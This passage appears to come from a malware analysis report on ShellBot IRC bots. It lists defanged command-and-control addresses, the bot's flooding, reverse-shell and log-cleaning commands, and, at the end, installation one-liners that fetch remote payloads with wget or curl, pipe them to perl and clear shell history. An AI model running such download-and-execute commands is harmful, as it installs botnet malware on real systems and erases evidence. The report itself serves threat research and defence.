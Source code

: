 Configuration data for ShellBot:

Filename: ak
C&C URL: 164.90.240[.]68:6667
Channel Name: #nou
Filename: per

C&C URL: 164.132.224[.]207:80
Channel Name: #mailbomb
Filename: mperl

C&C URL: 206.189.139[.]152:6667
Channel Name: #Q
Filename: niko1

C&C URL: 176.123.2[.]3:6667
Channel Name: #X

C&C URL and channels of LiGhT’s Modded perlbot v2:
The “LiGhT’s Modded perlbot v2” version of ShellBot offers various features which are largely categorized in the table below. Commands that can actually be used for malicious purposes include DDoS commands such as TCP, UDP, and HTTP Flooding. It also includes a variety of commands that allows control over infected systems so that they can be used in other attacks such as reverse shell, log deletion, and scanner.

The available commands cover various categories. Under "flooding," there are commands specifically designed for IRC Flooding. The "irc" category consists of commands related to IRC control. For DDoS attacks, the "ddos" category offers a range of commands including TCP, UDP, HTTP, and SQL Flooding. If targeting security web pages is the objective, the "news" category provides DDoS attack commands tailored for that purpose. The "hacking" category offers a selection of attack commands such as MultiScan, Socks5, LogCleaner, Nmap, and Reverse Shell. In case of needing help, the "linuxhelp" category provides relevant assistance. There are also "extras" with additional features, presumably related to DDoS attacks. Lastly, the "version" command is available to obtain information about the system's current version.


3.2. DDoS PBot v2.0
Aside from “LiGhT’s Modded perlbot v2”, “DDoS PBot v2.0” is also being used in a variety of attacks. A characteristic of “DDoS PBot v2.0” is that it shows basic information and available commands in the annotations that can be seen during its initial routine.

<img width="784" alt="Screen Shot 2023-06-01 at 1 22 31 PM" src="https://github.com/EnyelSalas/Blog-Portfolio/assets/115824437/9ac4e293-e5e5-4f27-aab3-a7f30cf539cc">

Initial routine of DDoS PBot v2.0:
The following are commands used to install “DDoS PBot v2.0”.

Filename
Installation Command
bash
wget -qO – 80.94.92[.]241/bash|perl
test.jpg
uname -a;wget -q -O- hxxp://185.161.208[.]234/test.jpg|perl;curl -sS hxxp://185.161.208[.]234/test.jpg|perl;nproc;history -c
dred
uname -a;lspci | grep -i –color ‘vga|3d|2d’;curl -s -L hxxp://39.165.53[.]17:8088/iposzz/dred -o /tmp/dred;perl /tmp/dred

